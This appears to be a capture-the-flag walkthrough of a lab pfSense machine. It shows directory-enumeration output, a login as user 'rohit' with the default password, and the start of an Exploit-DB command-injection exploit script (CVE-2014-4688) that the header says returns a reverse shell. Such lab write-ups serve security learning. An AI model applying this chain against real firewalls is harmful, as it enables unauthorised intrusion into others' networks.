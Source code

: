 ```console
/system.php           (Status: 200) [Size: 6691]                                  
/status.php           (Status: 200) [Size: 6691]                                  
/javascript           (Status: 301) [Size: 0] [--> https://10.129.51.37/javascript/]
/changelog.txt        (Status: 200) [Size: 271]                                     
/classes              (Status: 301) [Size: 0] [--> https://10.129.51.37/classes/]   
/exec.php             (Status: 200) [Size: 6689]                                    
/widgets              (Status: 301) [Size: 0] [--> https://10.129.51.37/widgets/]   
/graph.php            (Status: 200) [Size: 6690]                                    
/tree                 (Status: 301) [Size: 0] [--> https://10.129.51.37/tree/]      
/wizard.php           (Status: 200) [Size: 6691]                                    
/shortcuts            (Status: 301) [Size: 0] [--> https://10.129.51.37/shortcuts/] 
/pkg.php              (Status: 200) [Size: 6688]                                    
/installer            (Status: 301) [Size: 0] [--> https://10.129.51.37/installer/] 
/wizards              (Status: 301) [Size: 0] [--> https://10.129.51.37/wizards/]   
/xmlrpc.php           (Status: 200) [Size: 384]                                     
/reboot.php           (Status: 200) [Size: 6691]                                    
/interfaces.php       (Status: 200) [Size: 6695]                                    
/csrf                 (Status: 301) [Size: 0] [--> https://10.129.51.37/csrf/]      
/system-users.txt     (Status: 200) [Size: 106]                                     
/filebrowser          (Status: 301) [Size: 0] [--> https://10.129.51.37/filebrowser/]
/%7Echeckout%7E       (Status: 403) [Size: 345]                                      
                                                                                     
===============================================================
2022/08/31 23:40:41 Finished
===============================================================
```
This file reveals a user ```rohit``` and suggests that it is using a default password.


![image](https://user-images.githubusercontent.com/105310322/187796644-fe1e91c7-0ad6-42aa-9c39-81f48935d52e.png)

Login with user ```rohit``` and the default password for pfsense is ```pfsense```

Awesome we are in and we can see the version number for the pfsense is 2.1.3 so lets find an exploit for this.

![image](https://user-images.githubusercontent.com/105310322/187797528-2117d116-9224-4e45-9240-0e583756b6d3.png)

This exploit was found here https://www.exploit-db.com/exploits/43560

This exploit only works if there is ```status_rrd_graph_img.php``` and we can confirm that by going to the webpage.

```python
#!/usr/bin/env python3

# Exploit Title: pfSense <= 2.1.3 status_rrd_graph_img.php Command Injection.
# Date: 2018-01-12
# Exploit Author: absolomb
# Vendor Homepage: https://www.pfsense.org/
# Software Link: https://atxfiles.pfsense.org/mirror/downloads/old/
# Version: <=2.1.3
# Tested on: FreeBSD 8.3-RELEASE-p16
# CVE : CVE-2014-4688

import argparse
import requests
import urllib
import urllib3
import collections

'''
pfSense <= 2.1.3 status_rrd_graph_img.php Command Injection.
This script will return a reverse shell on specified listener address and port.
Ensure you have started a listener to catch the shell before running!
'''
```